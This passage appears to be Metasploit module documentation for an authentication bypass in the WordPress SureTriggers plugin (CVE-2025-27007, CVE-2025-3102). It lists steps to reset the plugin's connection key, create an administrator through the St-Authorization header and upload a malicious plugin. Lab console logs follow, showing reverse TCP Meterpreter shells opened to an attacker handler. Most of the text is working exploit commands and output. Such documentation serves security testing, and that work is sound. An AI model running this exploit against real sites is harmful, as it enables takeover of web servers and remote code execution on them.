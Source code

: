 1. Ensure SureTriggers v1.0.82 is active.
2. In `msfconsole`, set:

```bash
set ACTION CVE-2025-27007
```
3. Run the module: it will call `/wp-json/sure-triggers/v1/connection/create-wp-connection` to reset the key, then use
   `St-Authorization: Bearer mynewkey123` against `/wp-json/sure-triggers/v1/automation/action`.
4. New administrator is created; payload is uploaded and executed.


### Expected Results (CVE-2025-3102)

With `php/meterpreter/reverse_tcp`:

```plaintext
msf6 exploit(multi/http/wp_suretriggers_auth_bypass) > run http://lab:5555
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected WordPress version: 6.8.1
[+] The target appears to be vulnerable. Detected suretriggers version 1.0.78 (vulnerable to CVE-2025-3102)
[*] CVE-2025-3102: creating admin via St-Authorization Bearer (empty)
[+] Admin created: zGrsYO:8XL0pZKjN7pc
[*] Uploading malicious plugin for code execution...
[*] Executing payload at /wp-content/plugins/wp_63rkh/ajax_fybgc.php...
[*] Sending stage (40004 bytes) to 172.27.0.3
[+] Deleted ajax_fybgc.php
[+] Deleted wp_63rkh.php
[+] Deleted ../wp_63rkh
[*] Meterpreter session 1 opened (192.168.1.36:4444 -> 172.27.0.3:51410) at 2025-05-14 19:00:30 +0200

meterpreter > sysinfo
Computer    : 396e678f2510
OS          : Linux 396e678f2510 6.14.2-2-cachyos #1 SMP PREEMPT_DYNAMIC Thu, 10 Apr 2025 17:27:10 +0000 x86_64
Meterpreter : php/linux
```

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```plaintext
msf6 exploit(multi/http/wp_suretriggers_auth_bypass) > set target 1
target => 1
msf6 exploit(multi/http/wp_suretriggers_auth_bypass) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_suretriggers_auth_bypass) > run http://lab:5555
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected WordPress version: 6.8.1
[+] The target appears to be vulnerable. Detected suretriggers version 1.0.78 (vulnerable to CVE-2025-3102)
[*] CVE-2025-3102: creating admin via St-Authorization Bearer (empty)
[+] Admin created: zGrsYO:8XL0pZKjN7pc
[*] Uploading malicious plugin for code execution...
[*] Executing payload at /wp-content/plugins/wp_exf15/ajax_tpfd9.php...
[*] Sending stage (3045380 bytes) to 172.27.0.3
[+] Deleted ajax_tpfd9.php
[+] Deleted wp_exf15.php
[+] Deleted ../wp_exf15
[*] Meterpreter session 2 opened (192.168.1.36:4444 -> 172.27.0.3:53324) at 2025-05-14 19:02:06 +0200

meterpreter > sysinfo
```